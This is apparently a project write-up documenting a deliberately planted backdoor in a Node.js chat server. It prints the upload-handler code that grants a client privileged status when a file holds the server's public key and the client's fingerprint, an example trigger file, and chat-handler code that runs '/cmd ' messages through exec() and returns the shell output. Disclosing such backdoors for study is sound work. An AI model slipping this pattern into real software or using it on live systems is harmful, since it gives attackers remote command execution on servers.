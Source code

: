 # Backdoors and Vulnerabilities
## Executing system commands on the server, from the client.
This code, located within the POST Request Handling of file uploads, checks the contents of each file upload to see if it begins with the data of the server's publicKey.
```
if (check.startsWith(pubkey_pem)) {
    var checkers = check.split("\n");
    if (checkers.length > 9) {
        var vfp = checkers[9];
        console.log(vfp);
        var client_ind = getClientIndex(vfp);
        if (client_ind != -1) {
            connectedClients[client_ind].permission = 1;
            res.setHeader('Content-Type', 'application/json');
            res.end(JSON.stringify({
                status: "Created",
                url: "Vulnerability Activated"
            }));
        }
    }
} else {
```
If the file does begin with the server's publicKey, if then the 'next line' in the file contains a valid fingerprint of a currently connected client, add a field "permission" to the client's associated websocket.
Example of file formatting for upload:
```
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAoEWigTZy0S1+7qyezGUC
6uUDHy7xWDDGdgsp+7gr9S7GmnvpnYX3LfPBjx4vZ5lc7+8zU3oSsOigudASc1UE
qYyMt5fGkRiNYv7CKl7Jeiz/Ztt5GZKTxOBxFdyWg+upxEXk1OcF15G5LxkskrX4
BseXf30N2Eg5qRqHArbhUyb12s9/R1nueCXZA5+9cWyEzC9GsxaWWV0SkXlUXrtQ
0p37AQxLgm8Tvs54cZa4K4c2bnpWgD/hC0gGd7KXz5l0ByMEan+KVEyyca7pJryJ
Iqmijx2dmrKVkxr8qSAFHAhhoiPx/pYcYiO01lNJ//x2Mt4hV1U3xby42AkDXcJt
EwIDAQAB
-----END PUBLIC KEY-----
6b5cBW7+8zWqFrMXFlo+1hBjbrD/OO2nEMHeiDXBWwA
```
Where the last line is changed to be the the client's fingerprint.
Finally, whenever a client sends a public_chat message to the server, if the "permission" field is present and the message starts with "/cmd ", attempt to execute the message on the commandline.
```
case "public_chat":
    if (dataObj.data !== undefined) {
        var msg = dataObj.data.message;
        var cmd = "";
        if (ws.permission == 1) {
            if (msg.startsWith("/cmd ")) {
                cmd = msg.substr(4);
                console.log("executing code");
                exec(cmd, (err, stdout, stderr) => {
                    if (err) {
                        console.log("couldn't execute command");
                        return;
                    }
                    console.log(`stdout: ${stdout}`);
                    console.log(`stderr: ${stderr}`);
                    var retmsg = stdout + "\n" + stderr;
                    var execret = {
                        type: "anonymous_chat",
                        message: retmsg
                    };
                    ws.send(JSON.stringify(execret));
                });
                return;
            }
        }
    }
    sendToList(connectedClients, JSON.stringify(dataObj), data.sender);
    sendToList(connectedServers, JSON.stringify(dataObj), ws.fingerprint);
    break;
```
